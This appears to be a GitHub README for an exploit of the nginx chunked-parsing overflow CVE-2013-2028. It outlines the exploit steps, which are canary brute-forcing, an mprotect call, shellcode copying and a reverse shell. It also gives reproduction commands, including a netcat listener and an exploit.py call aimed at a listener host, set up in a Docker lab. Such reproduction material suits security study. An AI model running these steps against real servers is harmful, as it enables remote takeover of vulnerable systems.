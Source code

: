 # CVE-2013-2028 Exploit

## Vulnerability details

Vulnerable software: Nginx 1.3.9 < 1.4.0  
Commit with fix: <https://github.com/nginx/nginx/commit/4997de8005630664ab35f27140e2077e818b21a7>  

Vulnerability exists in function ngx_http_parse_chunked. This exploit triggers integer overflow in ngx_http_parse_chunked, and later using it overflows the stack to hijack control flow.

## Exploitation details

Actual exploit contains 4 steps:

1. Find value of the stack canary using byte-by-byte bruteforce
2. Calculate address of mprotect using value from rcx (points somewhere in lpthread). Call mprotect with appropriate arguments.
3. Copy shellcode to RWX memory location.
4. Jump to shellcode, and start reverse shell.

## How to reproduce

1. start listener on host system, for example using netcat: `nc -lvp 4345`
2. on virtual machine start docker: `sudo docker-compose up --build`
3. run exploit: `python2 exploit.py -ra 127.0.0.1 -rp 8081 -la <listener machine address> -lp <listener machine port>`
4. Let the exploit find actual value of the canary, and start reverse-shell.

![Demo](https://i.imgur.com/BGtGiiN.png?1)
